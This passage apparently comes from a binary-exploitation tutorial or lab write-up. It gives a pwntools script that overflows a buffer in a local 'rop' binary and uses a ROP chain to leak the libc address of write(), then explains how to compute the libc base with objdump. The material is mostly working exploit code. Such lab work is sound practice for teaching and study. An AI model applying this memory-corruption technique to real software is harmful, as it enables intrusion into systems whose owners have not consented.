 ```python
#!/bin/python
from pwn import *

context.log_level = 'debug'
context.terminal  = ['tilix', '-a', 'session-add-right','-e']

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

proc = process('./rop')

log.info("Stage one")
# Input str
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)

#gdb.attach('rop')

log.info("Send payload")
proc.send(payload)

log.info("Receiving write address")
# Take only 8 bytes (this will be write address in libc)
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")

proc.close()
```

## Calculating the libc address

Now when we got a write address we need a libc address.
The libc address can be easily calculated:

```txt
libc_address = obtained_write_address - write_libc_offset
```

Finding write offset in libc:

```txt
# objdump -d -M intel /lib64/libc.so.6 | grep "<__write>:"
00000000000f2520 <__write>:
```
